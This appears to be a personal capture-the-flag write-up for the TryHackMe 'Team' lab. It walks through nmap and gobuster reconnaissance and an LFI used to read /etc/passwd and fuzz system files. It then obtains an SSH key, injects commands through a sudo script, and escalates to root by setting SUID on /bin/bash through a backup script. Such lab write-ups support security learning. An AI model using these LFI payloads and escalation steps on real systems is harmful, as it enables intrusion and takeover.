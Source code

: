 Hello this is my first write up fot the room Team from THM -> https://tryhackme.com/room/teamcw . I hope you will like it. For any questions or whatever message u can find me on Twitter https://twitter.com/Vojtech1337 . 
We will start with adding host to the /etc/hosts file and after that we will do all ports nmap scan.
```
echo "\n10.10.162.244 team.thm" >> /etc/hosts

Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-05 06:13 EDT
Nmap scan report for 10.10.96.107 (10.10.96.107)
Host is up (0.069s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 79:5f:11:6a:85:c2:08:24:30:6c:d4:88:74:1b:79:4d (RSA)
|   256 af:7e:3f:7e:b4:86:58:83:f1:f6:a2:54:a6:9b:ba:ad (ECDSA)
|_  256 26:25:b0:7b:dc:3f:b2:94:37:12:5d:cd:06:98:c7:9f (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works! If you see this add 'te...
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
We see that we have ftp open so lets try to login with anonymous and leave password blank. But we have noo success. Next comes the web page on port 80.

![alt text](https://github.com/vojtechsmola/CTF-write-ups/blob/main/Tryhackme-Write-Ups/THM-Team-Write-Up/images/team_web.png?raw=true)

It looks like a static page - nothing interesting there. Gobuster didn't find any directories but found one subdomain -dev.team.thm .
```
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Domain:     team.thm
[+] Threads:    10
[+] Timeout:    1s
[+] Wordlist:   /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
===============================================================
2022/10/07 07:11:48 Starting gobuster in DNS enumeration mode
===============================================================
Found: dev.team.thm
===============================================================
2022/10/07 07:20:56 Finished
===============================================================

```
We need to add it to the /etc/hosts as well to acess it.
```
echo "\n10.10.162.244 dev.team.thm" >> /etc/hosts
```
Now let's see what is on this page.
![alt text](https://github.com/vojtechsmola/CTF-write-ups/blob/main/Tryhackme-Write-Ups/THM-Team-Write-Up/images/dev_team_web.png?raw=true)

Only thing here is link when we click it it redirects us to dev.team.thm/script.php?page=teamshare.php . 
This URL with page parameter immediately looks vulnerable to LFI attack. The easiest way to start testing this vulnerability is putting 
/etc/passwd into the page parameter which is successful and we have valid vulnerability.
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
dale:x:1000:1000:anon,,,:/home/dale:/bin/bash
gyles:x:1001:1001::/home/gyles:/bin/bash
ftpuser:x:1002:1002::/home/ftpuser:/bin/sh
ftp:x:110:116:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
```
We can see that (judging by which users have /bin/bash shell) there are 3 users - gyles,dale and root.
Now to get most of it we'll spin up wfuzz to fuzz pages. I've used this wordlist with linux files - https://github.com/DragonJAR/Security-Wordlist/blob/main/LFI-WordList-Linux
```
wfuzz -u http://dev.team.thm/script.php?page=FUZZ -w LFI-WordList-Linux --hw 0

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://dev.team.thm/script.php?page=FUZZ
Total requests: 771

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                     
=====================================================================
					-------redacted---------
000000260:   200        78 L     339 W      2684 Ch     "/etc/sysctl.conf"
000000251:   200        169 L    447 W      5990 Ch     "/etc/ssh/sshd_config"
000000231:   200        66 L     412 W      2180 Ch     "/etc/security/time.conf"
000000222:   200        107 L    663 W      3636 Ch     "/etc/security/group.conf"
000000228:   200        74 L     499 W      2973 Ch     "/etc/security/pam_env.conf"
000000226:   200        29 L     217 W      1441 Ch     "/etc/security/namespace.conf"
000000230:   200        12 L     70 W       420 Ch      "/etc/security/sepermit.conf"                                                                   
```
It will return many files but the most important one is /etc/ssh/sshd_config which contains id_rsa key.

![alt text](https://github.com/vojtechsmola/CTF-write-ups/blob/main/Tryhackme-Write-Ups/THM-Team-Write-Up/images/lfi_sshkey.png?raw=true)

Now we only need to copy the key to the file(without the hashes on the left) and chmod 600 and then we can simply use ssh command 
to connect to the machine as dale and cat the flag.
```
└─# ssh dale@team.thm -i id_rsa
Last login: Mon Jan 18 10:51:32 2021
dale@TEAM:~$ id
uid=1000(dale) gid=1000(dale) groups=1000(dale),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd),113(lpadmin),114(sambashare),1003(editors)
dale@TEAM:~$ cat user.txt 
THM{6Y0TXH*****}
```

Starting privilege escalation, we do simple sudo -l to see which commands we can run as different users and look at what the script does.
![alt text](https://github.com/vojtechsmola/CTF-write-ups/blob/main/Tryhackme-Write-Ups/THM-Team-Write-Up/images/ssh_sudo-l.png?raw=true)

If you don't know what any of these commands do u can use linux documentation. What read does here is putting out input into error
variable and then putting it straight into bash. This leads to command execution with simple /bin/bash.

```
dale@TEAM:~$ sudo -u gyles /home/gyles/admin_checks
Reading stats.
Reading stats..
Enter name of person backing up the data: whatever
Enter 'date' to timestamp the file: /bin/bash
The Date is 
id
uid=1001(gyles) gid=1001(gyles) groups=1001(gyles),1003(editors),1004(admin)
python3 -c 'import pty;pty.spawn("/bin/bash")'
gyles@TEAM:~$ id
uid=1001(gyles) gid=1001(gyles) groups=1001(gyles),1003(editors),1004(admin)
```
Now we're user gyles. Let's look into gyles directory. There is a .bash_history file which we can read. If you look
closely through the file there is a /usr/local/bin/main_backup.sh file which belongs to the admin group and is owned by root. There is no cronjob that we can see but it's still worth the try. The easiest way to privesc from here is to change /bin/bash permissions so it runs with the owner's (root) permissions.

```
gyles@TEAM:/home/gyles$ echo "chmod +s /bin/bash" >> /usr/local/bin/main_backup.s
gyles@TEAM:/home/gyles$ cat /usr/local/bin/main_backup.sh
#!/bin/bash
cp -r /var/www/team.thm/* /var/backups/www/team.thm/
chmod +s /bin/bash
```
Now we wait a until the minute passes and do
```
gyles@TEAM:/home/gyles$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1113504 Apr  4  2018 /bin/bash
```
If you want to keep the permissions and escalate to the root user u need to run it with -p otherwise it won't keep the permissions.
```
gyles@TEAM:/home/gyles$ /bin/bash -p
bash-4.4# id
uid=1001(gyles) gid=1001(gyles) euid=0(root) egid=0(root) groups=0(root),1001(gyles),1003(editors),1004(admin)
bash-4.4# cat /root/root.txt
THM{fhqbz*******}
```
And we have successfully rooted this machine and got the root flag.
Thank you so much for reading this write up. If you have any suggestions, questions or just want to play CTFs with someone reach me out 
on Twitter or wherever else you can find me.

